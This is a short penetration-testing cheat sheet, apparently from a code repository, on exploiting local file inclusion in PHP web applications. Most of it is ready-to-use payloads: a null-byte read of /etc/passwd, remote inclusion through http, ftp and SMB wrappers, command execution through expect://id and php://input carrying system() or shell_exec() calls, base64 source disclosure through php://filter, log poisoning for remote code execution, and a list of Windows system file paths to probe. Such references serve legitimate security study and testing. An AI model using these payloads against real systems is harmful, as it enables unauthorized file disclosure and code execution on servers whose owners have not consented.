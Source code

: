 # php wrappers, LFI

## Workarounds

NOTE: **Read the file that is running LFI** to get more information about the code.

```bash
# using null byte %00
/etc/passwd%00

# LFI wordlist
/usr/share/seclists/Fuzzing/LFI/LFI-LFISuite-pathtotest.txt
```

## .php wrappers

```bash
# protocol wraper
file=http://IP/
file=ftp://IP/
file=//IP/smb-share/file

# expect wrapper
# allows to run system commands
file=expect://id

# input wrapper
file=php://input
# needs to send POST data
<?php system('id'); ?> | <?php shell_exec('id'); ?>

# filter wrapper
file=php://filter/convert.base64-encode/resource=PHP-FILE
```

## LFI to RCE (linux)

```bash
# using LFI can read access log files and then log poision
# if user does not have perms to read log files; can do file descriptor way
LFI=/proc/self/fd/{NUMBER}

# once have access to log file > log-poisoning.
```

## LFI Paths (windows)

```bash
# sample paths to test
C:\Windows\System32\Drivers\etc\hosts
C:\\Windows\\System32\\Drivers\\etc\\hosts
\Windows\System32\Drivers\etc\hosts
\\Windows\\System32\\Drivers\\etc\\hosts
C:\Windows\win.ini
C:\\Windows\\win.ini
\Windows\win.ini
\\Windows\\win.ini
C:\Windows\system.ini
C:\\Windows\\system.ini
\Windows\system.ini
\\Windows\\system.ini
```
